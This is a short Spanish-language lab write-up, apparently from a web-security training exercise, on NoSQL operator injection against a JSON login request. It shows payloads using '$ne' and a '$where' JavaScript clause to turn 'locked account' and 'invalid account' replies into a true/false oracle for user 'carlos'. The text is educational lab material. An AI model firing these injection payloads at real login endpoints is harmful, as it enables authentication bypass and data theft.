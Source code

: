 Tenemos el siguiente laboratorio:
![[Pasted image 20240326105525.png]]
Vamos a la parte de my account y probamos en poner unas credenciales incorrectas:
![[Pasted image 20240326105955.png]]
Y dentro del HTTP history tenemos la petición de /login que podremos enviar al repeater:
![[Pasted image 20240326110049.png]]
Y en la parte de la contraseña vamos a insertar no igual:
```bash
{"username":"carlos","password":{"$ne":""
}
}
```
![[Pasted image 20240326110248.png]]
Donde vemos que la cuenta se ha bloqueado:
![[Pasted image 20240326110314.png]]
![[Pasted image 20240326110326.png]]
Podemos probar el siguiente payload donde al poner el 0 nos mostrará que cuenta inválida:
```bash
{"username":"carlos","password":{"$ne":""
},
"$where":"function(){ return 0;}"
}
```
![[Pasted image 20240326110805.png]]
Pero si le ponemos un 1, vemos que nos muestra el mensaje de cuenta bloqueada:
```bash
{"username":"carlos","password":{"$ne":""
},
"$where":"function(){ return 1;}"
}
```
![[Pasted image 20240326110847.png]]

